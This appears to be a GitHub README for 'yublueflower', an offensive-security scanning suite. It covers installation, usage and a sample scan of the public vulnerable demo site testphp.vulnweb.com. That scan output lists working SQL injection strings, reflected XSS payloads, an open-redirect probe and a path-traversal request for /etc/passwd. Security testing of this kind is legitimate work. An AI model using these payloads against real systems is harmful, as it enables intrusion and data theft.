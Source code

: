 ```yaml
---
title: yublueflower
excerpt: A suite integrating open-source workflows tailored for offensive security.
date: 2023-03-03 01:37:00
tags: [yublueflower]
categories:
  - [Tools]
index_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/reincarnation.png
banner_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/1337rokudenashi.png
---
```


<h1 align="center">yublueflower</h1>

<p align="center">
  A suite integrating open-source workflows tailored for offensive security.
</p>

<p align="center">
  <img src="https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white">
</p>

## Overview

```bash

            .      .-~\
           / `-'.'    `- :
           |    /          `._
           |   |   .-.        {
            \  |   `-'         `.
          .  \ |                /    We exploit flaws, not people.
        ~-.`.\ \|            .-~_
           `.\-.\       .-~      \
             `-'/~~ -.~          /
           .-~/|`-._ /~~-.~ -- ~
          /  |  \    ~- . _\

A suite integrating open-source workflows tailored for offensive security.
Author: 1337rokudenashi
Current yublueflower version v0.0.3 (latest)

Usage:
yublueflower -url http://testphp.vulnweb.com/

Options:
-help                 Show help message.
-url <URL>            Scan as well as test utilizing security flaw templates.
-highly-aggressive    Highly aggressive testing.
-silent               Skip URL gathering noise to keep testing clean.
```

A suite integrating open-source workflows tailored for offensive security, yublueflower provides comprehensive vulnerability assessments.
This tool is designed to be flexible and effective in supporting offensive security workflows. It has been tested to work smoothly on WSL (Windows Subsystem for Linux) with Kali Linux.

## Features

- **Reconnaissance Phase**:
  - Aggressively gathering URLs.
- **Vulnerability Assessment Phase**:
  - Assessing vulnerabilities offensively, scanning as well as testing utilizing security flaw templates.
- **Reporting Phase**:
  - Results flawlessly generated.
- **Options**:
  - Highly aggressive testing.
  - Skip URL gathering noise to keep testing clean.

## System Requirements

- **Operating System**: WSL (Windows Subsystem for Linux) with Kali Linux
- **Dependencies**: go.dev (see [installation instructions](https://go.dev/doc/install))
- **Dependencies**: nodejs (see [installation instructions](https://nodejs.org/en/download))

## Installation

To install yublueflower, clone the repository and set up the tool as follows:

```bash
git clone https://github.com/1337rokudenashi/yublueflower.git
cd yublueflower
chmod +x yublueflower
bash yublueflower
```

## Usage

To run the tool, use the following command:

```bash
yublueflower -url http://testphp.vulnweb.com/
```

```bash

            .      .-~\
           / `-'.'    `- :
           |    /          `._
           |   |   .-.        {
            \  |   `-'         `.
          .  \ |                /    We exploit flaws, not people.
        ~-.`.\ \|            .-~_
           `.\-.\       .-~      \
             `-'/~~ -.~          /
           .-~/|`-._ /~~-.~ -- ~
          /  |  \    ~- . _\

A suite integrating open-source workflows tailored for offensive security.
Author: 1337rokudenashi
Current yublueflower version v0.0.3 (latest)

Testing started at 13:37:01 01-03-2025
🟢 Reconnaissance Phase: Aggressively gathering URLs...
http://testphp.vulnweb.com/redir.php?r=https://getgophish.com/
http://testphp.vulnweb.com/AJAX/infoartist.php?id=1 AND UPDATEXML(3477,CONCAT(0x2e,0x7176716271,(SELECT (ELT(3477=3477,1))),0x716b786b71),6541)
http://testphp.vulnweb.com/artists.php?artist=1 order by 4
http://testphp.vulnweb.com/product.php?pic=3) AND 4294=2769 AND (1005=1005
http://testphp.vulnweb.com/listproducts.php?cat=1
http://testphp.vulnweb.com/?
http://testphp.vulnweb.com/showimage.php?ﬁle=13745325-cd3d-4961-b71d-d04727bb02b0
http://testphp.vulnweb.com/comment.php?aid=' UNION SELECT * FROM information_schema --
http://testphp.vulnweb.com/search.php?test=<USER_INPUT>
http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1 OR 17-7=10CONFIRMED
http://testphp.vulnweb.com/hpp/params.php?aaaa/=
http://testphp.vulnweb.com/login.php?id=1
http://testphp.vulnweb.com/Mod_Rewrite_Shop/details.php?id=-1 OR 17-7=10 PROCEDURE ANALYSE(EXTRACTVALUE(6706,CONCAT(0x5c,0x7176627671,(SELECT (CASE WHEN (6706=6706) THEN 1 ELSE 0 END)),0x716a627a71)),1)
http://testphp.vulnweb.com/hpp/?pp='"--></style></scRipt><scRipt src="//mv9e8mbvffulk1i0duvujvkdkktmkntnztbb8kejrja
http://testphp.vulnweb.com/˓→artists.php?artist=0
http://testphp.vulnweb.com/secured/phpinfo.php?=PHPE9568F35-D428-11d2-A769-00AA001ACF42
http://testphp.vulnweb.com/pictures/credentials.txtA01http://testphp.vulnweb.com/product.php?pic=1
http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-
http://testphp.vulnweb.com/˓→listproducts.php?cat=FUZZ*********************************************************
http://testphp.vulnweb.com/index.zipA01http://testphp.vulnweb.com/listproducts.php?artist=1A01
http://testphp.vulnweb.com/index.php?%id%=1
http://testphp.vulnweb.com/categories.php/listproducts.php?cat='
http://testphp.vulnweb.com/artist.php?artist=1
http://testphp.vulnweb.com/hpp/?pp=12
http://testphp.vulnweb.com/artists.php?artist=3
http://testphp.vulnweb.com/listproducts.php?cat=1
http://testphp.vulnweb.com/hpp/params.php?p=valid
http://testphp.vulnweb.com/showimage.php?file=./pictures/3.jpg
http://testphp.vulnweb.com/product.php?pic=6
🟢 Vulnerability Assessment Phase: Assessing vulnerabilities offensively, scanning as well as testing utilizing security flaw templates...
[waf-detect:nginxgeneric] [http] [info] http://testphp.vulnweb.com/
[php-errors] [http] [info] http://testphp.vulnweb.com/ ["Warning: mysql_connect()"]
[nginx-version] [http] [info] http://testphp.vulnweb.com/ ["nginx/1.19.0"]
[php-detect] [http] [info] http://testphp.vulnweb.com/ ["5.6.40"]
[open-redirect] [http] [medium] http://testphp.vulnweb.com/redir.php?r=https://oast.me [query:r] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/listproducts.php?cat=1%ef%80%a0' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/artists.php?artist=1+order+by+4' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:artist] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/details.php?id=-1+OR+17-7=10+PROCEDURE+ANALYSE(EXTRACTVALUE(6706,CONCAT(0x5c,0x7176627671,(SELECT+(CASE+WHEN+(6706=6706)+THEN+1+ELSE+0+END)),0x716a627a71)),1)' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/product.php?pic=3)+AND+4294=2769+AND+(1005=1005' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:pic] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/AJAX/infoartist.php?id=1+AND+UPDATEXML(3477,CONCAT(0x2e,0x7176716271,(SELECT+(ELT(3477=3477,1))),0x716b786b71),6541)' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1+OR+17-7=10CONFIRMED' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:id] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/search.php?test=<USER_INPUT>' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:test] [GET]
[open-redirect] [http] [medium] http://testphp.vulnweb.com/redir.php?r=https://oast.me [query:r] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/?pp='"--></style></scRipt><scRipt+src="//mv9e8mbvffulk1i0duvujvkdkktmkntnztbb8kejrja'"><69347> [query:pp] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/search.php?test=<USER_INPUT>'"><69347> [query:test] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/product.php?pic=3)+AND+4294=2769+AND+(1005=1005'"><69347> [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/Mod_Rewrite_Shop/rate.php?id=-1+OR+17-7=10CONFIRMED'"><69347> [query:id] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/artists.php?artist=1+order+by+4'"><69347> [query:artist] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/Mod_Rewrite_Shop/buy.php?id=-'"><69347> [query:id] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/listproducts.php?cat=1%ef%80%a0'"><69347> [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/listproducts.php?cat=1' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:cat] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/artists.php?artist=3' ["check the manual that corresponds to your MySQL server version","SQL syntax; check the manual that corresponds to your MySQL"] [query:artist] [GET]
[sqli-error-based:mysql] [http] [critical] http://testphp.vulnweb.com/product.php?pic=6' ["SQL syntax; check the manual that corresponds to your MySQL","check the manual that corresponds to your MySQL server version"] [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/listproducts.php?cat=1'"><77225> [query:cat] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/product.php?pic=6'"><77225> [query:pic] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/params.php?p=valid'"><77225> [query:p] [GET]
[linux-lfi-fuzz] [http] [high] http://testphp.vulnweb.com/showimage.php?file=../../etc/passwd [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/hpp/?pp=12'"><77225> [query:pp] [GET]
[reflected-xss] [http] [medium] http://testphp.vulnweb.com/artists.php?artist=3'"><77225> [query:artist] [GET]
🟢 Reporting Phase: Results flawlessly generated...
Results at /home/yublueflower/glow_yublueflower
Testing finished at 13:44:01 01-03-2025
Use command glow yublueflower_20250301_133701 to see results.
```

## Contributing

We welcome contributions! Feel free to fork the repository, improve the tool, and submit a pull request.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Author

Developed and maintained by 1337rokudenashi.
